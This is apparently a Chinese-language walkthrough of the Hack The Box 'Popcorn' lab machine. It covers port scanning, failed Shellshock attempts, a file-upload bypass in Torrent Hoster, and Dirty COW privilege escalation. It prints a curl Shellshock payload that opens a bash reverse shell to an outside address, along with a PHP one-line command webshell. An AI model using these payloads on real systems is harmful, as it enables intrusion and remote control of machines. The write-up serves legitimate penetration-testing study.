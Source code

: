 ```yaml
---
title: Popcorn（文件上传）
categories:
- training
tags:
- training
- port 80
- linux os
---
```


## scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
PHP/5.2.10-2ubuntu6.10
```
## web
先检查破壳漏洞，然后检查/test目录泄露的信息
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/1.PNG)
```
获取的信息：
Server Administrator 
webmaster@localhost 

web路径：/etc/apache2
	/var/www/test.php 

服务：/var/run/mysqld/mysqld.sock 

http://10.10.10.6/test/index.php

http://10.10.10.6/torrent/database/
-- Database: `torrenthoster`
```
burp scanner扫描了一遍，发现了几个漏洞，好像不能利用
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/12.PNG)

#### trying1: 低版本openssh

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/2.PNG)

#### trying2: 破壳漏洞检查

[CVE-2014-6271](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
searchsploit shellshock

PHP < 5.6.2 - 'Shellshock' Safe Mode / Disable Functions Bypass / Command Injection                         | exploits/php/webapps/35146.txt
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                                               | exploits/cgi/webapps/34895.r
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/3.PNG)
没有任何反应

#### trying3: 破壳漏洞检查2
http://10.10.10.6/test/
```
nc -lnvp 666

curl –H 'x: () { :;}; /bin/bash –i >& /dev/tcp/10.10.14.13/666 0>&1' http://10.10.10.6/test/
```
同样失败

#### trying4: 发现web目录
被漏洞扫描软件给坑了。不管有没有破壳漏洞，先扫描一下目录

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/4.PNG)

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/5.PNG)

exploit db上搜索一下Torrent Hoster。

[Torrent Hoster Remont Upload Exploit](https://www.exploit-db.com/exploits/11746)

 sql注入检测被网站黑名单发现
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/11.PNG)

做信息搜集发现的信息：
```
MySQL db        http://10.10.10.6/torrent/comment
```
#### trying5: 准备上传

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/6.PNG)
先随便上传一个txt，提示说明必须要是torrent文件，但是我们想要上传php类型webshell。

1. 上传torrent文件，burp---send to repeater，得到文件类型等信息。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/7.PNG)

2. 
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/8.PNG)
主面板获得上传的文件的路径。
http://10.10.10.6/torrent/torrents.php?mode=download&id=06aceda1226df400b0506aa813688f45309318a6

3.
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/9.PNG)
尝试替换为php反弹脚本，提示不是有效的torrent文件。

4. 

查看msfvenom能否生成torrent类型的载荷。

`msfvenom -l formats | grep torrent`

5.尝试在上传torrent时，同时上传一句话木马。
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/10.PNG)
生成了1.PNG.torrent

<?php @system($_POST["cmd"])?>

6.尝试在修改screenshot，上传反弹木马
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/13.PNG)
先注册账号，然后登陆。

随便上传一个torrent，然后点击edit the torrent。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/14.PNG)

替换图片内容为php-reverse-shell，名称后缀改为6.png.php

nc监听本地地址。

访问上传的路径：
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/15.PNG)

上传php反弹webshell失败，权限不够。

7. 和上一步差不多，上传一句话，而不是php反弹脚本
![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/16.PNG)

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/17.PNG)

## 提权
`uname -a`

发现linux内核为2.6.x，于是dirty cow提权。
![19](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/19.PNG)

值得一提的是
```
./a.out

Please enter the new password: a
```

然后就卡了有将近一分钟吧，还以为提权执行失败了（，，）下回要耐心等待。

## 总结：

以后遇到这种情况，测试方法

- 某cms，先查找以往漏洞。
- 确定输入点，挨个测试一遍。（当时一直在测torrent上传，没想到漏洞在更改图片那里）
- 上传漏洞需要找到上传的文件的路径。
一般要结合**路径遍历漏洞**。例如在这个cms，如果像下图一样，只是说明上传成功了，但是没有给出上传的地址（一般来说也没有必要）。

![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-04/18.PNG)

